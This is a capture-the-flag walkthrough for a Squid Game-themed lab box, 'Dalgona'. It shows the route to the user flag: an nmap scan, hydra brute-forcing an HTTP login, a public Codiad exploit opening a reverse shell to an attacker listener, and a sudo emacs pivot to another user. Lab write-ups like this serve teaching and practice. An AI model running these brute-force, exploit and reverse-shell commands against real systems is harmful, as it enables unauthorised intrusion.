



# CTF: Dalgona


  

## Description

> 오징어 게임에 참여하여 456억의 당첨 기회를 잡으세요!

## Write-up

Reference to the Korean series "Squid Game". We have to find the user and root flag.

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```



We found a page with text in Korean. We can translate the text using Google Translate.

```bash
오징어 게임에 오신 것을 환영합니다.
이 작업을 수행하려면 모양을 부수지 않고 추출해야 합니다.
행운을 빕니다!

Bienvenue dans le jeu du calmar.
Pour ce faire, vous devez extraire la forme sans la détruire.
bonne chance!
```

The text is a hint to extract the shape without destroying it. If we have the reference to the Korean series "Squid Game", we can assume that the shape is the umbrella shape from the series and we have to lick the shape without breaking it.

We can try to access the page with the path `/lick`.

```bash
http://$IP/lick
```



We keep the username `player456`

When click on the text we have redirect to the page `/lick/ide` with a HTTP Authentication.

We can use `hydra` to brute force the password.

```bash
hydra -l <USER> -P rockyou.txt <IP> http-get /lick/ide -t 64
```

We found the password and we can connect to the page `/lick/ide` with the credentials `player456:<PASSWORD>`

We have a code editor (Codiad) we can try to find exploit for this editor.
    
```bash
searchsploit codiad
```

https://www.exploit-db.com/exploits/49705

We can use this exploit to get a reverse shell.

On the attacker machine, we can create a python script to get a reverse shell.

```
nc -lvnp <PORT>
```

On the attacker machine, we can run the python script.

```bash
python exploit.py http://player456:<PASSWORD>@<IP>/lick/ide/ player456 <PASSWORD> <IP> <PORT> linux
```

We can use command to be in bash shell.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Go to home directory.
    
```
cd /home
ls
player456
```
We can try to `sudo -l` to see if we can run any command as root.

```
sudo -l
User www-data may run the following commands on squidgame:
    (player456) NOPASSWD: /usr/bin/emacs
```

We have to export TERM variable to run the command.

```
TERM=xterm; export TERM
sudo -u player456 emacs -Q -nw --eval '(term "/bin/sh")' 
```

We can read the user flag.

**Well done! You have successfully captured the user flag.**
